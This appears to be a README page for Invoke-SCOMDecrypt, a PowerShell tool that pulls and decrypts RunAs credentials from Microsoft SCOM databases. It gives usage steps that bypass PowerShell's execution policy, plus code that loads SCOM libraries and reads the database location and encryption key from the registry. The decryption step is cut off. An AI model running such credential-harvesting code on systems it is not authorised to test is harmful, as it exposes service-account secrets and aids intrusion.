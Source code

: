 ```yaml
---
title: "test TITLE"
date: 2022-09-01 12:00:00 -0000
permalink: test
author: aleks
tags: testing
---
```

# Invoke-SCOMDecrypt

## Introduction ##

This tool is designed to retrieve and decrypt RunAs credentials stored within Microsoft System Center Operations Manager (SCOM) databases.

## Pre-requisites ##

To run the tool you will require administrative privileges on the SCOM server. You will also need to ensure that you have read access to the following registry key:

    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\MOMBins

You can check manually that you can see the database by gathering the connection details from the following keys:

    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\Database\DatabaseServerName
    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\Database\DatabaseName

## Usage ##

To run within the PowerShell console:

    powershell.exe -exec bypass
    . .\Invoke-SCOMDecrypt.ps1
    Invoke-SCOMDecrypt
    ...

## How the script works ##

Pre-requisite check to see if SCOM is installed
```ps1
	
	[string]$installDirectory = (Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\System Center\2010\Common\Setup").InstallDirectory
	if (Test-Path $installDirectory)
	{
		$Full_Path = [System.IO.Path]::GetFullPath($installDirectory);
		[string]$PATH1 = [System.IO.Path]::GetFullPath("$Full_Path`Microsoft.Mom.Sdk.SecureStorageManager.dll")
		[System.Reflection.Assembly]::LoadFile($PATH1) | Out-Null
		[string]$PATH2 = [System.IO.Path]::GetFullPath("$Full_Path`Microsoft.EnterpriseManagement.DataAccessLayer.dll")
		[System.Reflection.Assembly]::LoadFile($PATH2) | Out-Null
	}
	else
	{
		Write-Host "[Critical Error] Unable to find installation directory of SCOM" -ForegroundColor Yellow
		return
	}
```
Get SQL information from the registry

```ps1
	Try
	{
		$reg = Get-ItemProperty "HKLM:SOFTWARE\Microsoft\System Center\2010\Common\Database" -erroraction stop
		$server = $reg.DatabaseServerName
		$database = $reg.DatabaseName
	}
	Catch [System.Management.Automation.ItemNotFoundException]
	{
		Write-Host "[Critical Error] Unable to detect SQL server"
		return
	}
	
	Try
	{
		$reg = Get-ItemProperty "HKLM:SOFTWARE\Microsoft\System Center\2010\Common\MOMBins" -erroraction stop
		$key = $reg.Value1
	}
	Catch [System.Management.Automation.ItemNotFoundException]
	{
		Write-Host "[Critical Error] Unable to find key"
		return
	}
	```
